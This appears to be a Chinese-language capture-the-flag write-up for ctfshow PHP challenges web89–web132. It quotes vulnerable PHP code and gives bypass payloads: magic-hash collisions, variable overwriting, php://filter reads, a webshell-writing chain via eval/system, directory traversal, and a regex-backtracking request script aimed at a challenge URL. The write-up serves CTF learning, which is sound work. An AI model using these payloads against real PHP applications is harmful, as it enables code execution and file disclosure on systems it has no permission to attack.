





web89(数组绕过)
if(isset($_GET['num'])){
$num = $_GET['num'];
if(preg_match("/[0-9]/", $num)){
die("no no no!");
}
if(intval($num)){
echo $flag;
}
}分析上面的代码可以看出，正则匹配0-9，匹配到则返回true，直接die，但是由于preg_match()只能处理字符串，当传入的是数组时将会返回false,从而绕过死亡函数。
**intval()函数用于获取变量的整数值。intval()**函数通过使用指定的进制 base 转换（默认是十进制），返回变量var的 integer 数值。 intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1。也就是说，当给intval()函数传入一个非空的数组时，intval()函数将会返回1，结合我们preg_match()传入数组返回false的特性，这道题的payload就很清楚了。
Payload:?num[]=1
web90(intval)
if(isset($_GET['num'])){
$num = $_GET['num'];
if($num==="4476"){
die("no no no!");
}
if(intval($num,0)===4476){
echo $flag;
}else{
echo intval($num,0);
}
intval($var,$base)，其中var必填，base可选，这里base=0,则表示根据var开始的数字决定使用的进制： 0x或0X开头使用十六进制，0开头使用八进制，否则使用十进制。
这里===表示类型和数值必须相等，我们可以使用4476的八进制或十六进制绕过检测。
Paylod：
num=010574
num=0x117c
intval() 还有一个特性。输入的值如果是字符串，它返回的内容取决于第一个字符左侧的数字。如 intval(‘11a22’)=11。
num=4476a
num=+4476
…
根据以下解释，可以传入一个数组来绕过不含数字而且intval取整数
[NSSCTF 2022 Spring Recruit]babyphp
通过使用指定的进制 base 转换（默认是十进制），返回变量 value 的 int 数值。 intval() 不能用于 object，否则会产生 E_WARNING 错误并返回 1。
echo intval(array()); // 0
echo intval(array('foo', 'bar')); // 1web91(preg_match /m)
$a=$_GET['cmd'];
if(preg_match('/^php$/im', $a)){
if(preg_match('/^php$/i', $a)){
echo 'hacker';
}
else{
echo $flag;
}
}
else{
echo 'nonononono';
} Apache HTTPD 换行解析漏洞(CVE-2017-15715)与拓展
考察了preg_match的/m模式
im模式是可以匹配很多行 i模式只能匹配一行
%0a换行，相当于enter
Payload：
cmd=%0aphp
cmd=php%0a1
web92
和90很像不过第一个比较并不是强类型，所以不能使用简单的4476a或者4476.来绕过，其他都可以
web93
过滤了所有字母但是可以使用8进制
Payload: num=010574
web94
if(isset($_GET['num'])){
$num = $_GET['num'];
if($num==="4476"){
die("no no no!");
}
if(preg_match("/[a-z]/i", $num)){
die("no no no!");
}
if(!strpos($num, "0")){
die("no no no!");
}
if(intval($num,0)===4476){
echo $flag;
}
}这段代码中的 if(!strpos($num, “0”)){} 行使用了 PHP 中的 strpos() 函数，它的作用是在字符串中查找特定子字符串第一次出现的位置。逐步解释这段代码的逻辑： 1.strpos($num, “0”)：这部分代码调用了 strpos() 函数，用于在 $num 变量中查找字符 “0” 第一次出现的位置。如果找到了，则返回该位置的索引值（索引值从0开始），如果没有找到，则返回 false。
所以开始不能有0，但是必须得有0，而且刚好第一个换成了强比较，所以可以使用4476.0
看其他wp是在前面加一个空格，也就是%20也可以使用%0a
web95
第一个改回去了，所以不能用4476.0其他Payload可以
web96(./绕过)
if(isset($_GET['u'])){
if($_GET['u']=='flag.php'){
die("no no no");
}else{
highlight_file($_GET['u']);
}
}在Linux下./表示当前目录
Payload:u=./flag.php
web97(md5数组绕过)
if (isset($_POST['a']) and isset($_POST['b'])) {
if ($_POST['a'] != $_POST['b'])
if (md5($_POST['a']) === md5($_POST['b']))
echo $flag; 这一道题涉及到了强比较的md5类型，从代码我们可以得知，要求a、b两个值不一样但是需要这两个值得md5值一样，因此强比较类型，我们可以利用md5函数处理数组类型会返回false的特性，从而利用false=false来绕过。
web98(三元运算符和传址(引用) )
include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__); 看完一头雾水
考点是PHP里面的三元运算符和传址(引用) 传址(引用)有点像c语言里面的地址 我们可以修改一下代码
<?php
include('flag.php');
if($_GET){
$_GET=&$_POST;//只要有输入的get参数就将get方法改变为post方法(修改了get方法的地址)
}else{
"flag";
} if($_GET['flag']=='flag'){
$_GET=&$_COOKIE;
}else{
'flag';所以我们只需要 GET一个?1(因为GET传值调用了POST，所以无所谓) 加 POST一个HTTP_FLAG=flag
web99(in_array)
<?php
highlight_file(__FILE__);
$allow = array();//设置为数组
for ($i=36; $i < 0x36d; $i++) {
array_push($allow, rand(1,$i));//向数组里面插入随机数
} i
f(isset($_GET['n']) && in_array($_GET['n'], $allow)){
//in_array()函数有漏洞 没有设置第三个参数 就可以形成自动转换eg:n=1.php自动转换为1
file_put_contents($_GET['n'], $_POST['content']);
//写入1.php文件 内容是<?php system($_POST[1]);?>
}
?>array_push——往数组尾部插入元素
rand(1,$i)——随机生成1-877之间的数
//所以array_push($allow, rand(1,$i))就是往数组中插入1-877之间的数字
in_array——搜索数组中是否存在指定的值:
in_array(search,array,type)
search为指定搜索的值
array为指定检索的数组
type为TRUE则 函数还会检查 search的类型是否和 array中的相同
综上，我们可以发现数组中的值是int，而在弱类型中当php字符串和int比较时,字符串会被转换成int，所以 字符串中数字后面的字符串会被忽略。题目中的in_array没有设置type,我们可以输入字符串5.php(此处数字随意，只要在rand(1,0x36d)之间即可)，转换之后也就是5
看到file_put_contents，可以使用php伪协议
web100(is_numeric 运算符优先级)
<?php
highlight_file(__FILE__);
include("ctfshow.php");
//flag in class ctfshow;
$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
if(!preg_match("/\;/", $v2)){ // v2不能有;
if(preg_match("/\;/", $v3)){ // v3必须有;
eval("$v2('ctfshow')$v3");
}
}
}
?>
运算符优先级：**&& > || > = > and > or**
is_numeric() 函数用于检测变量是否为数字或数字字符串。
是数字和数字字符串则返回 TRUE，否则返回 FALSE
var_dump()函数可以输出多个值。print_r也可以
=的运算符比and高
对于v0的值只需要看v1就可以v2,v3是干扰
所以v1输入数字
Payload:
?v1=11&v2=var_dump($ctfshow)/&v3=/;
?v1=1&v2=system(‘ls’)/&v3=/;
最后flag0x2d要转化为-
web101(反射类)
if($v0){
if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\)|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\;|\?|[0-9]/", $v2)){
if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\\$|\%|\^|\*|\(|\-|\_|\+|\=|\{|\[|\"|\'|\,|\.|\?|[0-9]/", $v3)){
eval("$v2('ctfshow')$v3");
}
}
}涉及到类，可以考虑使用 ReflectionClass 建立反射类。
new ReflectionClass($class) 可以获得类的反射对象（包含元数据信息）。
元数据对象（包含class的所有属性/方法的元数据信息）。
payload：v1=1&v2=echo new ReflectionClass&v3=;
flag中有些字符经过ACSII码变换，好像还少了一位，爆破即可
web102(substr call_user_func)
<?php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
$s = substr($v2,2); // 截去了前两个字符
$str = call_user_func($v1,$s);
echo $str;
file_put_contents($v3,$str);
}
else{
die('hacker');
}
?> **substr() **:函数返回字符串的一部分
**call_user_func()**：把第一个参数作为回调函数使用，后面的参数是这个函数的参数。返回调用函数的返回值。其实就是一种特殊的调用函数的方式。
php5下is_numeric可识别16进制，如0x2e，然后调用hex2bin转成字符串写入木马，但题目环境没配好，是php7,所以要另换方法。
用伪协议写入，所以需要base64编码后转成16进制全是数字的字符串
<?php
$a='<?=`cat *`;';
$b=base64_encode($a);//$a=PD89YGNhdCAqYDs=
$c=bin2hex('PD89YGNhdCAqYDs');
echo $c;
?>
得到5044383959474e6864434171594473PHP短标签
等价于
Payload:
GET:?v2=115044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php
POST:v1=hex2bin
web103
if($v4){
$s = substr($v2,2);
$str = call_user_func($v1,$s);
echo $str;
if(!preg_match("/.*p.*h.*p.*/i",$str)){
file_put_contents($v3,$str);
}
else{
die('Sorry');
}
}加了个鸡肋的限制，因为本来就是用base64加密后的，所以没什么影响
web104(md5 sha1)
if(isset($_POST['v1']) && isset($_GET['v2'])){
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
if(sha1($v1)==sha1($v2)){
echo $flag;
}
}shal函数就是计算散列函数，可以理解为一个不可逆的加密函数，这题没啥过滤，直接传两个相同的参数就好了，构造payload
或者使用数组也可以绕过
值的判断是使用 ==，所以找加密后 0e 开头的两个值也可以。
aaK1STfY -> 0e76658526655756207688271159624026011393
aaO8zKZF -> 0e89257456677279068558073954252716165668
以下这些字符串，md5哈希之后都是0e开头的：
s878926199a -> 0e545993274517709034328855841020
s155964671a -> 0e342768416822451524974117254469
s214587387a -> 0e848240448830537924465865611904
s214587387a -> 0e848240448830537924465865611904
QLTHNDT -> 0e405967825401955372549139051580
QNKCDZO -> 0e830400451993494058024219903391
EEIZDOI -> 0e782601363539291779881938479162
240610708 -> 0e462097431906509019562988736854
4011627063 -> 0e485805687034439905938362701775
4775635065 -> 0e998212089946640967599450361168
4790555361 -> 0e643442214660994430134492464512
5432453531 -> 0e512318699085881630861890526097
5579679820 -> 0e877622011730221803461740184915
5585393579 -> 0e664357355382305805992765337023
6376552501 -> 0e165886706997482187870215578015
7124129977 -> 0e500007361044747804682122060876
7197546197 -> 0e915188576072469101457315675502
7656486157 -> 0e451569119711843337267091732412
web105(php变量覆盖)
<?php
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
if($key==='error'){
die("what are you doing?!");
}
$$key=$$value;
}foreach($_POST as $key => $value){
if($value==='flag'){
die("what are you doing?!");
}
$$key=$$value;
}
if(!($_POST['flag']==$flag)){
die($error);
}
echo "your are good".$flag."\n";
die($suces);
?>本题考查变量覆盖和
die()的知识$$a = $$b可以类似于，将$a的地址指向$b所以无论$b怎么改变值，$a的值都会和$b一样
die()函数虽然会终止程序，但同时也会输出括号内的终止提示信息本题利用变量覆盖和
die()函数的特性- 先对get的内容进行覆盖，且不能覆盖error，所以要覆盖suces，即?suces=flag，此时suces=>flag的地址
- 再对post的内容进行覆盖，且不能将flag直接覆盖，所以只能error=suces，此时error=>flag的地址
- 此时无论进入哪个
die()函数，都可以输出$flag的值
Payload:
GET:?suces=flag
POST:error=suces
web106
if(sha1($v1)==sha1($v2) && $v1!=$v2){
echo $flag;
} 加了限制，Payload同104
web107(parse_str)
if(isset($_POST['v1'])){
$v1 = $_POST['v1'];
$v3 = $_GET['v3'];
parse_str($v1,$v2);
if($v2['flag']==md5($v3)){
echo $flag;
}
} parse_str($v1,$v2); //把v1的值相应的换成键值对再存入v2(数组)
v1=flag=114&index=300的话，
v2就变成一个数组，内容为flag–>114 index–>300（分为这两个键值对）
所以只需要让传入的flag md5值与v3一样就可
Payload:
POST:v1=flag=47bce5c74f589f4867dbd57e9ca9f808
GET:?v3=aaa
we108(ereg NULL截断漏洞)
highlight_file(__FILE__);
error_reporting(0);
include("flag.php");
if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE) {
die('error');
}
//只有36d的人才能看到flag
if(intval(strrev($_GET['c']))==0x36d){
echo $flag;
} ereg (“^[a-zA-Z]+$”, $_GET[‘c’])===FALSE
ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字 母的字符是大小写敏感的。
结合ereg()函数用法，搜索不到指定字符串就会返回FALSE
所以要让c中有字母，但不能出现其他东西
ereg 函数存在 NULL 截断漏洞，可以绕过正则过滤，使用 %00 截断。
0x36d，转十进制是877。
Payload:c=a%00778
web109(php内置类的使用)
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
$v1 = $_GET['v1'];
$v2 = $_GET['v2'];
if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
eval("echo new $v1($v2());");
}
}
?> 看到echo new尝试反射类
Payload：
?v1=Reflectionclass&v2=system(‘tac fl36dg.txt’)
?v1=Exception&v2=system(‘cat *’) 异常处理
?v1=class{ public function __construct(){ system(‘ls’); } };&v2=a 用匿名类绕过
v1=内置类&v2=system(‘ls’)即可 php中会先执行ls命令然后把结果作为参数再执行但ls的结果已经被输出了
web110(FilesystemIterator class)
$v1 = $_GET['v1'];
$v2 = $_GET['v2'];
if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
die("error v1");
}
if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
die("error v2");
}
eval("echo new $v1($v2());"); [The FilesystemIterator class](PHP: FilesystemIterator - Manual)
php内置类 利用 FilesystemIterator 获取指定目录下的所有文件
Payload:?v1=FilesystemIterator&v2=getcwd
web111(GLOBALS)
<?php
include("flag.php");
function getFlag(&$v1,&$v2){
eval("$$v1 = &$$v2;");
var_dump($$v1);
}
if(isset($_GET['v1']) && isset($_GET['v2'])){
$v1 = $_GET['v1'];
$v2 = $_GET['v2'];
if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
die("error v1");
}
if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
die("error v2");
}
if(preg_match('/ctfshow/', $v1)){
getFlag($v1,$v2);
}
} 注意 PHP 的函数具有词法作用域
在函数内部无法调用外部的变量，除非进行传参。这道题无非注意以下几点：
- 我们最终要得到 $flag 的值，就需要 var_dump($$v1) 中的 $v1 为 flag，即 $v2 要为 flag，这样 $$v2 就为 $flag，&$$v2 就为 $flag 对应的值
- URL 传参时 $v2 不能直接传为 flag，否则 $flag 会因“函数内部无法调用外部变量”的限制而导致其返回 null
- 要想跨过词法作用域的限制，我们可以用 GLOBALS 常量数组，其中包含了 $flag 键值对，就可以将 $flag 的值赋给 $$v1
Payload：?v1=ctfshow&v2=GLOBALS
web112(is_file)
function filter($file){
if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
die("hacker!");
}else{
return $file;
}
}
$file=$_GET['file'];
if(! is_file($file)){
highlight_file(filter($file));
}else{
echo "hacker!";
} 要求传入的file不是文件，但还能highlight_file，这就要说明is_file和highlight_file对于文件的判断：is_file认为伪协议不是文件，highlight_file认为伪协议是文件，所以这里传入filter伪协议即可。
Payload:
php://filter/resource=flag.php
php://filter/convert.iconv.UCS-2LE.UCS-2BE/resource=flag.php
php://filter/read=convert.quoted-printable-encode/resource=flag.php
compress.zlib://flag.php
web113
function filter($file){
if(preg_match('/filter|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
die('hacker!');
}else{
return $file;
}
}
$file=$_GET['file'];
if(! is_file($file)){
highlight_file(filter($file));
}else{
echo "hacker!";
}1.利用函数所能处理的长度限制进行目录溢出： 原理：/proc/self/root代表根目录，进行目录溢出，超过is_file能处理的最大长度就不认为是个文件了。 payload: file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/ self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se lf/root/proc/self/root/var/www/html/flag.php
2.利用php中zip伪协议 用法[源于php官方提供的一些例子]： compress.zlib://file.gz compress.zlib://file.bz2 payload: file=compress.zlib://flag.php
web114
function filter($file){
if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
die('hacker!');
}else{
return $file;
}
}
$file=$_GET['file'];
echo "师傅们居然tql都是非预期 哼！";
if(! is_file($file)){
highlight_file(filter($file));
}else{
echo "hacker!";
}把filter放出来了，直接读
web115(\f绕过is_numberic()+trim())
function filter($num){
$num=str_replace("0x","1",$num);
$num=str_replace("0","1",$num);
$num=str_replace(".","1",$num);
$num=str_replace("e","1",$num);
$num=str_replace("+","1",$num);
return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
if($num=='36'){
echo $flag;
}else{
echo "hacker!!";
}
}else{
echo "hacker!!!";
}trim() 函数移除字符串两侧的空白字符或其他预定义字符。
一般是用来去除字符串首尾处的空白字符（或者其他字符），一般在用在服务端对接收的用户数据进行处理，以免把用户误输入的空格存储到数据库，下次对比数据时候出错。
filter让我们没法转进制绕过，这道题的关键在于如何绕过trim，推测需要特殊字符，所以我们写个脚本fuzz一下：
<?php
function filter($num){
$num=str_replace("0x","1",$num);
$num=str_replace("0","1",$num);
$num=str_replace(".","1",$num);
$num=str_replace("e","1",$num);
$num=str_replace("+","1",$num);
return $num;
}
for($i=0;$i<129;$i++){
$num=chr($i).'36';
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
echo urlencode(chr($i));
}
}Payload:?num=%0c36
trim函数会过滤空格以及\n\r\t\v\0，但不会过滤\f
web123(下划线_绕过)
<?php
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
eval("$c".";");
if($fl0g==="flag_give_me"){
echo $flag;
}
}
}
?> 在php中变量名只有数字字母下划线，被get或者post传入的变量名，如果含有空格、+、[则会被转化为_，所以按理来说我们构造不出CTF_SHOW.COM这个变量(因为含有.)，但php中有个特性就是如果传入[，它被转化为_之后，后面的字符就会被保留下来不会被替换
Payload:CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag
web125($_SERVER[‘argv’]绕过)
利用$_SERVER[‘argv’]
parse_str(）函数把查询字符串解析到变量中。
注释：如果未设置array参数，则由该函数设置的变量将覆盖已存在的同名变量。
注释：php.ini 文件中的 magic_quotes_gpc 设置影响该函数的输出。如果已启用，那么在 parse_strO）解析之前，变量会被 addslashesO转换。
$_SERVER 是一个包含了诸如头信息(header)、路径(path)、以及脚本位置(script locations)等等信息的数组。这个数组中的项目由 Web 服务器创建。
‘argv’
传递给该脚本的参数的数组。当脚本以命令行方式运行时，argv 变量传递给程序 C 语言样式的命令行参数。当通过 GET 方式调用时，该变量包含query string。
意思就是通过$_SERVER[‘argv’]将$a变成数组，再利用数组的性质将fl0g=flag_give_me传入，同时还绕过第一个if中的!isset($_GET[‘fl0g’]))，用+来进行分隔，使得数组中有多个数值。
执行eval函数也就是执行$c即是parse_str($a[1])，使得fl0g=flag_give_me，从而进入第三个if语句。
Payload:
GET:?1=flag.php
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1])
GET:?a=1++fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1])
GET:?a=1++fl0g=flag_give_me
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=assert($a[0])
web126
Payload同上
web127(extract变量覆盖 $_SERVER[‘QUERY_STRING’])
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];
//特殊字符检测
function waf($url){
if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
return true;
}else{
return false;
}
}
if(waf($url)){
die("嗯哼？");
}else{
extract($_GET);
}
if($ctf_show==='ilove36d'){
echo $flag;
}extract() 函数从数组中将变量导入到当前的符号表。
.和[被过滤了可以使用 (空格)来过滤
**$SERVER[‘QUERY_STRING’];**获取的查询语句是服务端还没url解码之前的字符串，所以对_进行一次url编码也能绕过。
Payload:?ctf%5fshow=ilove36d
web128(gettext->_())
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$f1 = $_GET['f1'];
$f2 = $_GET['f2'];
if(check($f1)){
var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
echo "嗯哼？";
}
function check($str){
return !preg_match('/[0-9]|[a-z]/i', $str);
}小知识点： _()是一个函数
_()==gettext() 是gettext()的拓展函数，开启text扩展。需要php扩展目录下有php_gettext.dll
**get_defined_vars()**函数
get_defined_vars —>返回由所有已定义变量所组成的数组 这样可以获得 $flag
Payload: ?f1=_&f2=get_defined_vars
web129(stripos 目录穿越)
<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
$f = $_GET['f'];
if(stripos($f, 'ctfshow')>0){
echo readfile($f);
}
} stripos() 函数查找字符串在另一字符串中第一次出现的位置（不区分大小写）。如果没有找到字符串则返回 FALSE。
注释：stripos() 函数是不区分大小写的。
注释：该函数是二进制安全的。
目录穿越
Payload:
?f=./ctfshow/../flag.php
?f=./ctfshow/../../../../var/www/html/flag.php
web130
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
$f = $_POST['f'];
if(preg_match('/.+?ctfshow/is', $f)){
die('bye!');
}
if(stripos($f, 'ctfshow') === FALSE){
die('bye!!');
}
echo $flag;
} 1）第一个判断。
.+?表示匹配任意字符一个或则多个。
.*? 表示匹配任意字符0个或多个。
. 匹配除换行符 \n 之外的任何单字符。
- 匹配前面的子表达式一次或多次。
? 匹配前面的子表达式零次或一次，或指明一个非贪婪限定符。
/i不区分大小写
/s 匹配任何空白字符，包括空格、制表符、换页符等等。
题中整个正则表达式的意思就是，以任意一个或多个字符开头，遇到ctfshow就匹配，不区分大小写，不能有任何空白字符。
也就是说输入的内容里，ctfshow前面不能有字符。
2）第二个判断。stripos函数如果未发现字符串将返回 FALSE。
全等于的条件是必须双方的类型也一样，所以ctfshow在首位返回的0与FLASE不全等。
所以payload:POST:f=ctfshow
web131(正则最大回溯)
<?php
error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
$f = (String)$_POST['f'];
if(preg_match('/.+?ctfshow/is', $f)){
die('bye!');
}
if(stripos($f,'36Dctfshow') === FALSE){
die('bye!!');
}
echo $flag;
}
在php中正则表达式进行匹配有一定的限制，超过限制直接返回false
Poc
import requests
# Construct the payload
preg = 'very' * 250000 + '36Dctfshow'
payload = {'f': preg}
# The target URL
url = 'https://b8e115f7-c0eb-4c76-9dd8-840b15166fb3.challenge.ctf.show/'
# Send the POST request
response = requests.post(url, data=payload)
# Check for errors and print the response
if response.status_code == 200:
print('Response:', response.text)
else:
print('Failed to get a valid response. Status code:', response.status_code)
web132(PHP逻辑运算符绕过)
访问robots.txt–>/admin
include("flag.php");
